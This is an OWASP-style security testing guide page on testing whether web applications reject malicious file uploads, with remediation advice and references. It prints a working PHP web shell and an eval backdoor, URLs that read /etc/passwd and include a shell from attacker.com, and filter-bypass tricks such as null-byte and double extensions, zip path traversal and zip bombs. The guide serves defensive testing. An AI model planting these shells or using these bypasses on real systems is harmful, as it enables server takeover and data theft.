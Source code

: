Summary
-------

Many application’s business processes allow for the upload of data/information. We regularly check the validity and security of text but accepting files can introduce even more risk. To reduce the risk we may only accept certain file extensions, but attackers are able to encapsulate malicious code into inert file types. Testing for malicious files verifies that the application/system is able to correctly protect against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in that these “malicious” files can easily be rejected through including business logic that will scan files during the upload process and reject those perceived as malicious. Additionally, this is different from uploading unexpected files in that while the file type may be accepted the file may still be malicious to the system.

Finally, “malicious” means different things to different systems, for example Malicious files that may exploit SQL server vulnerabilities may not be considered a “malicious” to a main frame flat file environment.

The application may allow the upload of malicious files that include exploits or shellcode without submitting them to malicious file scanning. Malicious files could be detected and stopped at various points of the application architecture such as: IPS/IDS, application server anti-virus software or anti-virus scanning by application as files are uploaded (perhaps offloading the scanning using SCAP).

Example
-------

Suppose a picture sharing application allows users to upload their .gif or .jpg graphic files to the web site. What if an attacker is able to upload a PHP shell, or exe file, or virus? The attacker may then upload the file that may be saved on the system and the virus may spread itself or through remote processes exes or shell code can be executed.

How to Test
-----------

Generic Testing Method

• Review the project documentation and use exploratory testing looking at the application/system to identify what constitutes and “malicious” file in your environment.

• Develop or acquire a known “malicious” file. An [EICAR anti-malware test file](http://www.eicar.org/85-0-Download.html) can be used as harmless, but widely detected by antivirus software.

• Try to upload the malicious file to the application/system and verify that it is correctly rejected.

• If multiple files can be uploaded at once, there must be tests in place to verify that each file is properly evaluated.

### Exploit Payload

• Using the Metasploit payload generation functionality generates a shellcode as a Windows executable using the Metasploit “msfpayload” command.

• Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

### Malicious File

• Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.

• Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

<http://www.eicar.org/86-0-intended-use.html>

### WebShell Backdoor

For example upload the 'WebShell-backdoor.php' to the target victim site.\

`<?php`\
`if(isset($_REQUEST['cmd'])){`\
`echo "<pre>";`\
`$cmd = ($_REQUEST['cmd']);`\
`system($cmd);`\
`echo "</pre>";`\
`die;`\
`}`\
`?>`

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

[`http://TargetVictimSite.com/WebShell-backdoor.php?cmd=cat+/etc/passwd`](http://TargetVictimSite.com/WebShell-backdoor.php?cmd=cat+/etc/passwd)

or it may execute by remote file injection as below.

<http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php>

Other PHP example:

<?php @eval($_POST['password']);?>
### Invalid File

• Set up the intercepting proxy to capture the “valid” request for an accepted file.

• Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

-   Java: new file, import, upload, getFileName, Download, getOutputString
-   C/C++: open, fopen
-   PHP: move\_uploaded\_file(),Readfile, file\_put\_contents(),file(),parse\_ini\_file(), copy(),fopen(),include(), require()

### Evasion of the Filter

The following techniques may be used to bypass the website file upload checking rules and filters.

-   Change the value of 'Content-Type' as 'image/jpeg' in HTTP request
-   Change the extensions as executable extensions such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml
-   Changes of capital letters of extensions. such as file.PhP or file.AspX
-   Using special trailing such as spaces, dots or null characters such as file.asp… . file.php;jpg, file.asp%00.jpg, 1.jpg%00.php

The executable extensions should be in black list such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml

-   In IIS6 vulnerability, if the file name is file.asp;file.jpg,the file will be executed as file.asp.

`http://www.targetVictim.com/path/file.asp;file.jpg`

-   In NginX, if the original file name is test.jpg, testers/hackers may change it to 'test.jpg/x.php'

Once it's uploaded, the file will be executed as x.php

### Zip files path

One Zip file may contain the malicious PHP with target purpose path such as '..\\..\\..\\..\\hacker.php' If the website doesn't check the unzip target path, the hacker.php may unzip to the specified path.

### Zip Bomp

Upload the ZIP bomb file that may cause application denial of service.

<https://github.com/AbhiAgarwal/notes/wiki/Zip-bomb>

-   new File, file, OutputSteam, upload, import, file\_put\_contents, open, fopen

Related Test Cases
------------------

[ Test File Extensions Handling for Sensitive Information (OTG-CONFIG-003) ](Test_File_Extensions_Handling_for_Sensitive_Information_(OTG-CONFIG-003) "wikilink")

[ Test Upload of Unexpected File Types (OTG-BUSLOGIC-008)](Test_Upload_of_Unexpected_File_Types_(OTG-BUSLOGIC-008) "wikilink")

Tools
-----

• Metasploit's payload generation functionality

• Intercepting proxy

References
----------

OWASP - Unrestricted File Upload - <https://www.owasp.org/index.php/Unrestricted_File_Upload>

Why File Upload Forms are a Major Security Threat - <http://www.acunetix.com/websitesecurity/upload-forms-threat/>

File upload security best practices: Block a malicious file upload - <http://www.computerweekly.com/answer/File-upload-security-best-practices-Block-a-malicious-file-upload>

Overview of Malicious File Upload Attacks - <http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/>

8 Basic Rules to Implement Secure File Uploads - <http://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads>

Stop people uploading malicious PHP files via forms - <http://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms>

How to Tell if a File is Malicious - <http://www.techsupportalert.com/content/how-tell-if-file-malicious.htm>

CWE-434: Unrestricted Upload of File with Dangerous Type - <http://cwe.mitre.org/data/definitions/434.html>

Implementing Secure File Upload - <http://infosecauditor.wordpress.com/tag/malicious-file-upload/>

Watchful File Upload - <http://palizine.plynt.com/issues/2011Apr/file-upload/>

Matasploit Generating Payloads - <http://www.offensive-security.com/metasploit-unleashed/Generating_Payloads>

Project Shellcode – Shellcode Tutorial 9: Generating Shellcode Using Metasploit <http://www.projectshellcode.com/?q=node/29>

Anti-Malware Test file - <http://www.eicar.org/86-0-Intended-use.html>

Remediation
-----------

While safeguards such as black or white listing of file extensions, using “Content-Type” from the header, or using a file type recognizer may not always be protections against this type of vulnerability. Every application that accepts files from users must have a mechanism to verify that the uploaded file does not contain malicious code. Uploaded files should never be stored where the users or attackers can directly access them.
